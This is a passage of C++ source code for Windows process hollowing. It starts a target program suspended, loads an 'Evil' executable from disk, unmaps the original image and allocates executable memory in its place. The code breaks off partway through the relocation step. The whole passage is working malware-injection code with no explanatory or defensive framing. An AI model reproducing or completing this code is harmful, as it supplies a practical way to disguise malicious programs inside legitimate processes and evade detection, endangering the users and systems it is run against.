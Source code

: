 ```cpp
	HANDLE HEvilFile;

	printf("Creating Susspended Process. [%s]\n",argv[1]);
	CreateProcessA(NULL, argv[1], NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, pStartupinfo, &proc_info);
	HEvilFile = CreateFileA(argv[2], GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);

	DWORD EvilFileSize = GetFileSize(HEvilFile, NULL);
	PBYTE EvilImage = new BYTE[EvilFileSize];

	printf("Mamming File To Memory. [%s]\n", argv[2]);
	DWORD readbytes;
	ReadFile(HEvilFile, EvilImage, EvilFileSize, &readbytes, NULL);

	
	// Get All The Register Values
	printf("Geting Current Context.\n");
	LPCONTEXT pContext = new CONTEXT();
	pContext->ContextFlags = CONTEXT_FULL;
	if (!GetThreadContext(proc_info.hThread, pContext)) {
		printf("Error getting context\n");
		return 0;
	}
	

	// Get The Base Address Of The Susspended Process
	PVOID BaseAddress;

	#ifdef _X86_ 
		ReadProcessMemory(proc_info.hProcess, (PVOID)(pContext->Ebx + 8), &BaseAddress, sizeof(PVOID), NULL);
	#endif

	#ifdef _WIN64
		ReadProcessMemory(proc_info.hProcess, (PVOID)(pContext->Rdx + (sizeof(SIZE_T) * 2)), &BaseAddress, sizeof(PVOID), NULL);
	#endif

	// Getting The Addres Of NtUnmapViewOfSection And unmmaping All the Sections
	printf("Unmapping Section.\n");
	HMODULE hNTDLL = GetModuleHandleA("ntdll");
	FARPROC fpNtUnmapViewOfSection = GetProcAddress(hNTDLL, "NtUnmapViewOfSection");
	_NtUnmapViewOfSection NtUnmapViewOfSection = (_NtUnmapViewOfSection) fpNtUnmapViewOfSection;
	if (NtUnmapViewOfSection(proc_info.hProcess, BaseAddress)) {
		printf("Error Unmaping Section\n");
		return 0;
	}


	// Getting The DOS Header And The NT Header Of The Mapped File
	PIMAGE_DOS_HEADER dos_head = (PIMAGE_DOS_HEADER)EvilImage;
	PIMAGE_NT_HEADERS nt_head = (PIMAGE_NT_HEADERS)((LPBYTE)EvilImage + dos_head->e_lfanew);


	// Allocaation Memory In the Susspended Process;
	PVOID mem = VirtualAllocEx(proc_info.hProcess, BaseAddress, nt_head->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	#ifdef _X86_
		// Calculate The Offset Of The Susspended Process Base Address From The Files Base Address
		DWORD BaseOffset = (DWORD)BaseAddress - nt_head->OptionalHeader.ImageBase;
		printf("Original Process Base: 0x%llx\nEvil File Base: 0x%llx\nOffset: 0x%llx\n\n", nt_head->OptionalHeader.ImageBase, BaseAddress, BaseOffset);

```